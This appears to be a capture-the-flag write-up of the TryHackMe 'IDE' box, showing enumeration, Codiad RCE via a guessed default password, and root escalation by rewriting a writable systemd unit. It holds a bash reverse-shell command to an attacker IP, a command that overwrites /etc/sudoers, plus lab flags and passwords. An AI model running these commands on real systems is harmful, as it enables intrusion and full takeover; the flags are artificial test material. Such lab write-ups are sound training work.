

# IDE

## Description

An easy box to polish your enumeration skills!

Gain a shell on the box and escalate your privileges!

## Initial Scan

Let's start with an Nmap scan. The scan reveals four open ports:

* 21 ftp (anonymous login allowed)
* 22 ssh
* 80 http
* 62337 http

~~~
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.**.**
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## FTP

Let's start with the ftp service, since anonymous login is allowed. After connetcting to the ftp service, we can see a weird name for a folder:

~~~
└─$ ftp $IP
Connected to 10.10.184.116.
220 (vsFTPd 3.0.3)
Name (10.10.184.116:user): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||27990|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 .
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 ..
drwxr-xr-x    2 0        0            4096 Jun 18 06:11 ...     <---------
226 Directory send OK.
~~~

After navigating to it, we can see a file with an unusual name:

~~~
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||27691|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18 06:11 -    <---------
drwxr-xr-x    2 0        0            4096 Jun 18 06:11 .
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 ..
226 Directory send OK.
~~~

I downloaded the file and changed its named and read it:

~~~
ftp> get -
local: - remote: -
229 Entering Extended Passive Mode (|||41741|)
150 Opening BINARY mode data connection for - (151 bytes).
100% |*************************************************************************|   151      939.24 KiB/s    00:00 ETA
226 Transfer complete.
151 bytes received in 00:00 (1.46 KiB/s)
ftp> exit
221 Goodbye.
                                                                                      
└─$ mv \- dash
                                                                                                                      
└─$ cat dash
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
~~~

So we know that user `john`'s password has been set to default, which can be useful later on.

## Web (port 80)

Let's move on to the web service running on port 80. The main page is the default page for Apache2. I ran `dirsearch` on it and found nothing, so let's move on.

## Web (port 62337)

Let's take a look at the other web service on port 62337. By navigating to it, we can see this page, which is the login page for Codiad and we can also see its version in the top which is `2.8.4`:

Codiad is an open source web-based IDE framework written in Javascript that includes a powerfull multitabs ASCII text editor with language syntax highlighting and a file tree explorer.

I used `searchsploit` to see if there are any exploits for this version and found a few and they all need authentication:

~~~
└─$ searchsploit codiad 2.8.4
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Codiad 2.8.4 - Remote Code Execution (Authenticated)                                | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)                            | multiple/webapps/49902.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (3)                            | multiple/webapps/49907.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)                            | multiple/webapps/50474.txt
------------------------------------------------------------------------------------ ---------------------------------
~~~

We know that john's password has been set to default, so I tried some default passwords on the login page and guessed the password which was `password`.

## Reverse shell

Now that we have creds, we can use the exploits. I'm gonna leave the exploit [here](https://github.com/Nima-Fr/TryHackMe/blob/main/IDE/files/exploit.py) for you guys, in case you couldn't find it yourself.

First run the exploit as shown below. The exploit needs the url, username, password, and listening host and porn plus the platform:

~~~
└─$ python3 exploit.py http://10.10.184.116:62337/ john password 10.9.4.143 4444 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.9.4.143/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
[+] Please confirm that you have done the two command above [y/n]
[Y/n]
~~~

After running the exploit, we are given to commands to run on our machine. Run those two commands on two separate shells:

~~~
$ echo 'bash -c "bash -i >/dev/tcp/10.9.4.143/4445 0>&1 2>&1"' | nc -lnvp 4444
listening on [any] 4444 ...
~~~

~~~
$ rlwrap nc -lvnp 4445
listening on [any] 4445 ...
~~~

Now enter "y" where the exploit is running and you should have a shell. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
└─$ rlwrap nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.9.4.143] from (UNKNOWN) [10.10.184.116] 57132
bash: cannot set terminal process group (913): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ide:/var/www/html/codiad/components/filemanager$ which python3
/usr/bin/python3
www-data@ide:/var/www/html/codiad/components/filemanager$ python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

## www-data -> drac

Now we need to switch to a user on the machine to move forward. First I listed `/home` directory to see the users on the machine and there is only one: `drac`

~~~
www-data@ide:/var/www/html/codiad/components/filemanager$ ls /home
drac
~~~

Next I went to `drac`'s home directory and listed the files:

~~~
www-data@ide:/var/www/html/codiad/components/filemanager$ cd /home/drac
www-data@ide:/home/drac$ ls -la
total 52
drwxr-xr-x 6 drac drac 4096 Aug  4 07:06 .
drwxr-xr-x 3 root root 4096 Jun 17 14:01 ..
-rw------- 1 drac drac   49 Jun 18 06:02 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11 12:11 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11 11:53 .bashrc
drwx------ 4 drac drac 4096 Jun 18 06:03 .cache
drwxr-x--- 3 drac drac 4096 Jun 18 06:47 .config
drwx------ 4 drac drac 4096 Jun 18 06:48 .gnupg
drwx------ 3 drac drac 4096 Jun 18 05:49 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
-rw-r--r-- 1 drac drac    0 Jun 17 14:03 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18 05:49 .xsession-errors
-r-------- 1 drac drac   33 Jun 18 06:32 user.txt
~~~

As you can see the user flag is here, but we don't have read access to it and we need to switch to user drac first. If you pay close attention, we can read `.bash_history` and it's always worth to take a look at it:

~~~
www-data@ide:/home/drac$ cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
~~~

Here we can see that this user had logged into the database using `Th3dRaCULa1sR3aL` as the password. I tried the password to switch to `drac` and was successful:

~~~
www-data@ide:/home/drac$ su drac
Password: Th3dRaCULa1sR3aL
drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
~~~

Now that we have `drac`'s password (`Th3dRaCULa1sR3aL`), we can connect to the machine via ssh to get a stable shell. Let's do this before reading the user flag:

~~~
└─$ ssh drac@$IP
drac@10.10.184.116's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

[REDACTED]

drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
~~~

Now we can do a little clean up and close all the shells that we used for the exploit to work.

## User Flag

Now that we have a stable shell as user `drac`, let's go ahead and read the user flag:

~~~
drac@ide:~$ cat user.txt 
02930d21a8eb009f6d26361b2d24a466
~~~

User flag: `02930d21a8eb009f6d26361b2d24a466`

## Privilege Escalation

Now it's time for privilege escalation. First I ran `sudo -l` to check my sudo permissions:

~~~
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
~~~

As you can see, we can `restart` the `vsftpd` service, with sudo and no password. We can exploit this service, if we have write access to its config file which is `/lib/systemd/system/vsftpd.service`:

~~~
drac@ide:~$ ls -la /lib/systemd/system/vsftpd.service
-rw-rw-r-- 1 root drac 248 Aug  4 07:24 /lib/systemd/system/vsftpd.service
~~~

Great! We can edit it. We can do a few things here. One is to create a bash reverse shell and change the config file, so that it runs our reverse shell on a restart. Since it is being run by root, we will receive a root shell.

Another one is to modify `/etc/sudoers` which only root can access using `echo` command to change sudo permissions of user drac to "ALL" and again, it is being run by root, so we have enough permission to edit this file.

I'm gonna take the second path, since it is faster and a bit more technical. First, let's head to `/lib/systemd/system` where the config file for vsftpd service is. Then use `nano` (`vim` is also available) to edit `vsftpd.service`. Change the content to the following (We are just changing `ExecStart`, which specifies the commands that run after booting or rebooting the service):

~~~
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
~~~

After I was done editing, I ran the command with sudo, but I got an error:

~~~
drac@ide:/lib/systemd/system$ sudo /usr/sbin/service vsftpd restart
Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
~~~

We can just run the `systemctl daemon-reload` which reloads units and then run the command again:

~~~
drac@ide:/lib/systemd/system$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
drac@ide:/lib/systemd/system$ sudo /usr/sbin/service vsftpd restart
~~~

Now let's check if our exploit worked by running `sudo -l`:

~~~
drac@ide:/lib/systemd/system$ sudo -l
User drac may run the following commands on ide:
    (root) NOPASSWD: ALL
~~~

It worked! We just need to run `sudo su` to switch to root:

~~~
drac@ide:/lib/systemd/system$ sudo su
root@ide:/lib/systemd/system# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root Flag

Now that we are root, we can head to `/root` and read the root flag:

~~~
root@ide:/lib/systemd/system# cd /root
root@ide:~# ls
root.txt
root@ide:~# cat root.txt 
ce258cb16f47f1c66f0b0b77f4e0fb8d
~~~

Root flag: `ce258cb16f47f1c66f0b0b77f4e0fb8d`

# D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something.

Have a g00d 0ne! : )
